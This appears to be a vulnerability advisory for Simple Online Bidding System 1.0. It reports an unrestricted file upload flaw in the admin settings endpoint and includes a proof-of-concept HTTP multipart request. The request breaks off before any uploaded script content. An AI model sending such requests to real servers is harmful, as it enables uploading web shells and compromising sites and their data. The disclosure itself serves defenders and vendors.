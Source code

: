## Affected version: 
Simple Online Bidding System - 1.0



## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

## Vulnerability File:
/simple-online-bidding-system/admin/ajax.php?action=save_settings

## Description:
Simple Online Bidding System 1.0 is vulnerable to the unrestricted file upload attack of /simple-online-bidding-system/admin/ajax.php?action=save_settings. An attacker can use this vulnerability to directly upload malicious scripts to the target server. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /simple-online-bidding-system/admin/ajax.php?action=save_settings HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------25037955527065652752621416028
Content-Length: 1708
Origin: http://localhost
Connection: close
Referer: http://localhost/simple-online-bidding-system/admin/index.php?page=site_settings
Cookie: PHPSESSID=q643apn08ggv5g81r5q8pocl6t
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.1.23

-----------------------------25037955527065652752621416028
Content-Disposition: form-data; name="name"

Simple Online Bidding System
-----------------------------25037955527065652752621416028
Content-Disposition: form-data; name="email"

info@sample.comm
-----------------------------25037955527065652752621416028
Content-Disposition: form-data; name="contact"

+6948 8542 623
-----------------------------25037955527065652752621416028
Content-Disposition: form-data; name="about"

```